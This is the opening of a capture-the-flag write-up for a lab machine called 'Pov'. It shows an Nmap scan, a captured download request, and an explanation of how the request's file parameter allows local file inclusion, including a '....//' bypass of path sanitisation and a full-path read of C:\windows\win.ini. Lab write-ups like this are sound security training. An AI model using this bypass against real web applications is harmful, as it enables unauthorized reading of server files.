# Nmap
```
Nmap scan report for 10.10.11.251
Host is up, received user-set (0.014s latency).
Scanned at 2024-02-20 13:49:57 +08 for 155s
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-favicon: Unknown favicon MD5: E9B5E66DEBD9405ED864CAC17E2A888E
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: pov.htb
|_http-server-header: Microsoft-IIS/10.0
```

## LFI
![pov1](https://github.com/ngohuiann/CTF-Write-Ups/blob/main/image/pov1.png)

dev.pov.htb download CV button generate this request:
```
POST /portfolio/default.aspx HTTP/1.1
Host: dev.pov.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 373
Origin: http://dev.pov.htb
Connection: close
Referer: http://dev.pov.htb/portfolio/default.aspx
Upgrade-Insecure-Requests: 1

__EVENTTARGET=download&__EVENTARGUMENT=&__VIEWSTATE=DAsrQy2PiX5KXtsNF4kDsu5N%2BdzCpkMawb5RGKK2jE9Ib1cqLXmSkDJFVuSLpnFGy42fvDQIQ%2BM4UNG84A9ADXmHZV8%3D&__VIEWSTATEGENERATOR=8E0F0FA3&__EVENTVALIDATION=GU%2F9W%2BTIKmqI67CcoIuM9cVEupmKIkWHSIH7STIYe2%2F98bqu8u2yf9qPKhgQ2okH9EAcOgB243e%2BaS4XYn3bwjWrnH4g3ByuUxIOSQER88Q%2F4FAoE9FtdJH0jmKFG1ipF84l2g%3D%3D&file=index.aspx.cs
```
![pov2](https://github.com/ngohuiann/CTF-Write-Ups/blob/main/image/pov2.png)

The file parameter is vulnerable to LFI, read source code by inserting default.aspx. It is shown that "../" is being sanitized. But we can bypass this with "....//" or just specified the full path (eg. C:\windows\win.ini)


